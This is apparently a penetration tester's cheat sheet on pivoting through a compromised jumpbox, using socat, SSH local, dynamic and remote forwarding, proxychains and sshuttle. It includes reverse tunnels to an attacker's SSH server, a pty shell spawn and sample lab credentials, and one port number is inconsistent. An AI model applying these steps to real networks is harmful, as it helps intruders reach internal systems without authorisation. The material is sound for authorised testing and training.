 Port Forwarding = Forwarding all traffic sent to that port to another destination (i.e. another port on another machine that isn't reachable from the attacker machine).

# Using Socat
Note: Simple port forwards like these are easy to detect with network monitoring tools. 

Socat usually isn't installed on victim machines but it's possible to download and run a statically linked binary version instead.

Socat binaries: https://github.com/3ndG4me/socat/releases

Once socat is installed on the victim machine (i.e. the jumpbox between the target and attacker):
```bash
socat -ddd TCP-LISTEN:$(LPORT_OF_JUMPBOX),fork TCP:$(IP_OF_TARGET):$(RPORT_OF_TARGET)
```
## Example
There are 3 machines.
* Attacker machine can reach "jumpbox" but not "postgresql".
* Jumpbox machine that has been compromised by attacker. Can reach attacker AND postgresql. IP=192.168.50.63.
* Postgresql machine. Port 5432 is open but only accesible to Jumpbox. IP=10.4.50.215.

Attacking machine wants to access port 5432 on a postgresql server, but that server is only reachable through the jumpbox machine in between them, thus a port forward can be set up on the jumpbox for all traffic going through (for example) port 2345 to forward to port 5432 of the postgresql server:
```bash
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```
Now the attacker machine can access postgresql through the jumpbox machine on port 2345:
```bash
psql -h 192.168.50.63 -p 2345 -U postgres
```
# SSH Tunelling/Port Forwarding
Most SSH tunnelling requires a tty shell, if it's not - then do this:
```bash
python3 -c 'import pty; pty.spawn("/bin/sh")'
```
To connect back to the Kali SSH server using a username and password you may have to explicity allow password-based authentication by setting PasswordAuthentication to yes in /etc/ssh/sshd_config.
## Local Port Forwarding
Forwards one port to another port of another machine.
```bash
ssh -N -L 0.0.0.0:$(LPORT_OF_LISTENER):$(IP_OF_TARGET):$(RPORT_OF_TARGET) $(SSH_USER)@$(IP_OF_JUMPBOX)
```
### Example
There are 4 machines.
* Attacker machine can reach "confluence" machine.
* Confluence machine can reach "database" machine and attacker machine. IP=192.168.50.63
* Database machine can reach "SMB" machine and confluence machine. IP=10.4.50.215
* SMB machine can reach database machine. IP=172.16.50.217

Run this on the confluence machine to make smb machine port 445 reachable via 4455:
```bash
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```
Attacker machine can now access smb machine through confluence machine on port 4455:
```bash
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome1234
```
## Dynamic Local Port Forwarding
Forwards traffic received on one port to access everything visible on another machine.

Run on the jumpbox:
```bash
ssh -N -D 0.0.0.0:9999 $(SSH_USER)@$(IP_OF_TARGET)
```
### Proxychains
To be able to use any tool through this open port forward, proxychains will need to be configured.
```bash
sudo echo "socks5 $(JUMPBOX_IP) 9999" >> /etc/proxychains4.conf
```
Lowering the tcp_read_time_out and tcp_connect_time_out values in the Proxychains configuration file will force Proxychains to time-out on non-responsive connections more quickly. This can dramatically speed up port-scanning times.
### Example
There are 4 machines.
* Attacker machine can reach "confluence" machine.
* Confluence machine can reach "database" machine and attacker machine. IP=192.168.50.63
* Database machine can reach "SMB" machine and confluence machine. IP=10.4.50.215
* SMB machine can reach database machine. IP=172.16.50.217

Run this on the confluence machine to make all machines "database" can see reachable via 9999:
```bash
ssh -N -D 0.0.0.0:9999 database_admin@10.4.50.215
```
Edit the proxychains config on attacker machine:
```bash
sudo echo "socks5 192.168.50.63 9999" >> /etc/proxychains4.conf
```
Run commands to access different ports on the smb machine from attacker machine:
```bash
sudo proxychains4 nmap -vvv -sT --top-ports=20 -Pn 172.16.50.217
```
## Remote Port Forwarding
SSH remote port forwarding can be used to connect back to an attacker-controlled SSH server and bind the listening port there. Think of it like a reverse shell, but for port forwarding.
On attacker machine:
```bash
sudo systemctl start ssh
```
On jumpbox machine:
```bash
ssh -N -R 127.0.0.1:2345:$(TARGET_IP):$(TARGET_PORT) kali@$(ATTACKER_IP)
```
### Example
There are 4 machines.
* Attacker machine can reach "confluence" machine. IP=192.168.118.4
* Confluence machine can reach "database" machine and attacker machine. IP=192.168.50.63
* Database machine can reach "SMB" machine and confluence machine. IP=10.4.50.215
* SMB machine can reach database machine. IP=172.16.50.217

Run this on confluence to make port 5432 reachable via localhost port 2345:
```bash
ssh -N -R 127.0.0.1:2345:10.4.50.215:5432 kali@192.168.118.4
```
On the attacker machine:
```bash
psql -h 127.0.0.1 -p 2345 -U postgres
```
## Dynamic Remote Port Forwarding
Note: Only works on OpenSSH Client v7.6+. So the remote machines SSH version matters.

Remote dynamic port forwarding creates a dynamic port forward in the remote configuration. The SOCKS proxy port is bound to the SSH server, and traffic is forwarded from the SSH client.

Run on jumpbox:
```bash
ssh -N -R 9998 kali@$(ATTACKER_IP)
```
### Proxychains
To be able to use any tool through this open port forward, proxychains will need to be configured.
```bash
sudo echo "socks5 127.0.0.1 9999" >> /etc/proxychains4.conf
```
Lowering the tcp_read_time_out and tcp_connect_time_out values in the Proxychains configuration file will force Proxychains to time-out on non-responsive connections more quickly. This can dramatically speed up port-scanning times.
# sshuttle
Automates Dynamic Port Forwarding. Requires:
* Root privileges on SSH Client.
* Python3 on SSH Server.

Run on jumpbox machine:
```bash
socat -ddd TCP-LISTEN:2222,fork TCP:$(IP_OF_TARGET):$(RPORT_OF_TARGET)
```
Run on attacker machine:
```bash
sshuttle -r $(SSH_USER)@$(JUMPBOX_IP):2222 $(IP_OF_TARGET_SUBNET)/24 $(IP_OF_TARGET_SUBNET)/24
```
Example:
```bash
sshuttle -r database_admin@192.168.50.63:2222 10.4.50.0/24 172.16.50.0/24
```
# Windows
## ssh.exe
```batch
where ssh
```
On the attacker machine:
```bash
sudo systemctl start ssh
```
```bash
sudo echo "socks5 127.0.0.1 9998" >> /etc/proxychains4.conf
```
On the Windows jumpbox:
```bash
ssh -N -R 9998 kali@$(IP_ADDRESS)
```
